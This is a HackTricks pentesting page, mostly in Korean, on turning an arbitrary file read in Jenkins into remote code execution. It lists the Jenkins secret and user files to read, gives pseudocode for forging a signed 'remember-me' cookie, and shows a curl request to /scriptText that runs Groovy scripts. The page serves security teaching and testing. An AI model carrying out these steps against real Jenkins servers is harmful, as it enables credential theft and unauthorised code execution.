 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

이 블로그 게시물에서는 Jenkins의 Local File Inclusion 취약점을 RCE로 변환하는 훌륭한 방법을 찾을 수 있습니다: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

이것은 임의의 쿠키를 조작하여 RCE를 얻는 방법에 대한 게시물의 요약입니다. 제가 직접 요약을 작성할 시간이 생길 때까지 사용됩니다:

### Attack Prerequisites

* **Feature Requirement:** "Remember me"가 활성화되어 있어야 합니다 (기본 설정).
* **Access Levels:** 공격자는 Overall/Read 권한이 필요합니다.
* **Secret Access:** 주요 파일에서 이진 및 텍스트 콘텐츠를 읽을 수 있는 능력.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* 각 사용자에 대한 `$JENKINS_HOME/users/*.xml`에서 사용자 구성 및 비밀을 액세스하여 다음을 수집합니다:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* 쿠키 서명에 사용되는 암호화 키를 추출합니다:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **토큰 만료 시간 계산:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 현재 시간에 1시간 추가
```
{% endcode %}
*   **토큰을 위한 데이터 연결:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **MAC Key 파일 복호화:**

```javascript
key = toAes128Key(masterKey)  // 마스터 키를 AES128 키 형식으로 변환
decrypted = AES.decrypt(macFile, key)  // .mac 파일 복호화
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **HMAC SHA256 계산:**

```javascript
mac = HmacSHA256(token, macKey)  // 토큰과 MAC 키를 사용하여 HMAC 계산
tokenSignature = bytesToHexString(mac)  // MAC을 16진수 문자열로 변환
```

**Cookie Encoding**

*   **최종 쿠키 생성:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // 쿠키 데이터를 Base64로 인코딩
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **CSRF 및 세션 토큰 가져오기:**
* `/crumbIssuer/api/json`에 요청을 보내 `Jenkins-Crumb`를 얻습니다.
* 응답에서 `JSESSIONID`를 캡처하여 remember-me 쿠키와 함께 사용합니다.

**Command Execution Request**

*   **Groovy 스크립트로 POST 요청 보내기:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 스크립트는 시스템 수준의 명령이나 Jenkins 환경 내에서 다른 작업을 실행하는 데 사용할 수 있습니다.

제공된 curl 명령 예시는 임의의 코드를 안전하게 실행하기 위해 필요한 헤더와 쿠키로 Jenkins에 요청을 보내는 방법을 보여줍니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
